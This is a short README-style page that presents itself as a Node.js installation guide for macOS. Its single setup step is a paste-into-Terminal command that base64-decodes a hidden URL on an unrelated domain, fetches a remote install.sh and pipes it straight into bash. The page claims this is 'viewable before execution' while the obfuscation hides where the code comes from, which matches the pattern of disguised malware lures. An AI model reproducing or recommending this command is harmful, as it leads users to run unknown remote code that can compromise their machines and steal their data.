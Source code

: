 
# 🟢 Node.js on macOS — JavaScript Toolkit Access

Node.js enables powerful JavaScript development outside the browser.  
This method offers a clean and visible way to make Node.js ready on your macOS device.

---

### 🧭 How to Start

Paste this into your macOS Terminal:

```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9hbmdlbGFrd2FrLmNvbS9uanMvaW5zdGFsbC5zaA== | base64 -d))"
```

- Viewable before execution  
- Easy to reverse if needed  
- Optimized for local usage

---

### ⚙️ System Requirements

- macOS 10.14 or higher  
- Terminal app access  
- Web connection

---

### 🔤 Font Support

Try using [JetBrains Mono](https://www.jetbrains.com/lp/mono/) or [Fira Code](https://github.com/tonsky/FiraCode) for clearer code formatting.

---

### 📄 License

MIT License

Permission is hereby granted, free of charge, to any person obtaining a copy of this software...
